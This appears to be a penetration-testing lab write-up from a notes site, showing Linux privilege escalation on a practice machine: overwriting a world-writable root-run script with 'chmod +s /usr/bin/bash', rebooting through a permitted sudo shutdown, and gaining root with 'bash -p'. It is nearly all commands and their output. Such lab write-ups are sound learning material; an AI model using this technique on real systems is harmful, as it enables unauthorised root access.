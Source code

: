 ```yaml
---
layout: default
title: Overwrite File
parent: Misc Exploits
nav_order: 1
---
```


# Overwrite File

---

## Check Sudo Permissions

```bash
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

We have the ability to run the _/sbin/shutdown_ command.

Maybe that will come in handy later.

## Check Processes

```bash
tre@tre:~$ ps aux | grep root

root       417  0.0  0.1   6728  3268 ?        Ss   18:57   0:02 /bin/bash /usr/bin/check-system

```

Checking _/usr/bin/check-system_

```bash
tre@tre:~$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system

```

We can overrite the file.

```bash
tre@tre:~$ echo "chmod +s /usr/bin/bash" > /usr/bin/check-system
tre@tre:~$ cat /usr/bin/check-system
chmod +s /usr/bin/bash
```

Now we can leverage the sudo permissions on _/sbin/shutdown_

```bash
tre@tre:~$ sudo /sbin/shutdown -r


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh tre@192.168.213.84
tre@192.168.213.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 13 23:04:58 2023 from 192.168.45.217
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
bash-5.0# whoami
root

```
